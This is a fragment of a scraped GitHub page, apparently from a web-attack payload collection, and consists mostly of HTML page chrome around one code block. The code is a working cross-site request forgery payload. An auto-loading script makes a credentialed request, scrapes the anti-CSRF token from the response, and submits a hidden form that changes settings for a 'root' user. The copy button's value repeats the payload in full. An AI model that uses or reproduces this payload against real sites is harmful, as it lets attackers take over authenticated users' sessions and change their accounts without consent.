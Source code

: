 &lt;script&gt;
var x = new XMLHttpRequest();
function getData() {
  x.withCredentials = true;
  x.open("GET","http://google.com?param=VALUE",true);
  x.send(null); 
}
x.onreadystatechange = function() {
  if (x.readyState == XMLHttpRequest.DONE) {
    var token = x.responseText.match(/name="token" value="(.+)"/)[1];
    document.getElementById("findtoken").value = token;
    document.getElementById("form").submit();
  }
}
&lt;/script&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<body onload=&quot;getData()&quot;>

<form id=&quot;form&quot; action=&quot;http://google.com?param=VALUE&quot; method=&quot;POST&quot; enctype=&quot;multipart/form-data&quot;>
  <input type=&quot;hidden&quot; name=&quot;username&quot; value=&quot;root&quot;/>
  <input type=&quot;hidden&quot; name=&quot;status&quot; value=&quot;on&quot;/>
  <input type=&quot;hidden&quot; id=&quot;findtoken&quot; name=&quot;token&quot; value=&quot;&quot;/>
  <input type=&quot;submit&quot; value=&quot;valider&quot;/>
</form>

<script>
var x = new XMLHttpRequest();
function getData() {
  x.withCredentials = true;
  x.open(&quot;GET&quot;,&quot;http://google.com?param=VALUE&quot;,true);
  x.send(null); 
}
x.onreadystatechange = function() {
  if (x.readyState == XMLHttpRequest.DONE) {
    var token = x.responseText.match(/name=&quot;token&quot; value=&quot;(.+)&quot;/)[1];
    document.getElementById(&quot;findtoken&quot;).value = token;
    document.getElementById(&quot;form&quot;).submit();
  }
}
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>